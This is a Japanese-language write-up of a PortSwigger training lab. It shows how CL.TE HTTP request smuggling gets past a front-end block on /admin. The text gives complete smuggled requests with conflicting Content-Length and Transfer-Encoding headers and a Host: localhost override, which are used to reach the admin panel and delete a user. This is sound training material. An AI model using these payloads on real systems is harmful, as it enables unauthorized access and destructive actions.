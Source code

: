 # HTTP リクエストの密輸を悪用してフロントエンドのセキュリティ制御、CL.TE の脆弱性をバイパスする

次のラボを実施します  
https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te  
このラボにはフロントエンド サーバーとバックエンド サーバーが含まれますが、フロントエンド サーバーはチャンク エンコーディングをサポートしていません。

- 1.  Burp Suite を起動して、proxy タブからブラウザを立ち上げます

* 2. ブラウザからハッキングラボにアクセスします

- 3. GET / リクエストを send to repeater します

* 4. GET /admin に書き換えてリクエストを送信します

```
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8
Content-Length: 24

"Path /admin is blocked"
```

- 5. Repeater のリクエストを表示した状態で右クリックして change to request を選択して、POST リクエストに切り替えます

* 6. Setting で Repeater の Update content length のチェックボックスを外します
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/8b1031a6-e20f-4f61-b906-8b54d6d8a882)

* 7. inspector で http/1 に設定します

* 8. リクエストを以下のように書き換えて 2 回送信します

```
POST / HTTP/1.1
Host: 0aaa007a04f97fda81fec0c500390080.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X

```

2 回目のレスポンスで以下情報が得られます

```
Admin interface only available to local users
```

フロントエンドはチャンクをサポートしていないので、初回リクエストで 2 回リクエスト処理がされており、2 回目のリクエスト時に GET /admin の結果が得られます

- 9. ローカルユーザーとしてアクセスできるように Host ヘッダーを追加して、2 回送信

```
POST / HTTP/1.1
Host: 0aaa007a04f97fda81fec0c500390080.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X


```

2 回目のレスポンスで以下情報が得られます

```
"error":"Duplicate header names are not allowed"
```

- 10. 2 番目のリクエストが 2 回目のペイロードに入るようにリクエストを修正して 2 回送信。

```
POST / HTTP/1.1
Host: 0aaa007a04f97fda81fec0c500390080.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

2 回目のレスポンスでユーザー削除リンクが得られます

```html
<div>
  <span>carlos - </span>
  <a href="/admin/delete?username=carlos">Delete</a>
</div>
```

- 11. ユーザーを削除するようにリクエストを書き換えて 2 回送信。

```
HTTP/1.1 302 Found
Location: /admin
Set-Cookie: session=KR19QT4N5Cb8pLra2papvQTfpOzDUAts; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 0
```

2 回目のレスポンス

```
HTTP/1.1 302 Found
Location: /admin
Set-Cookie: session=KR19QT4N5Cb8pLra2papvQTfpOzDUAts; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 0

```

ユーザーの削除ができました
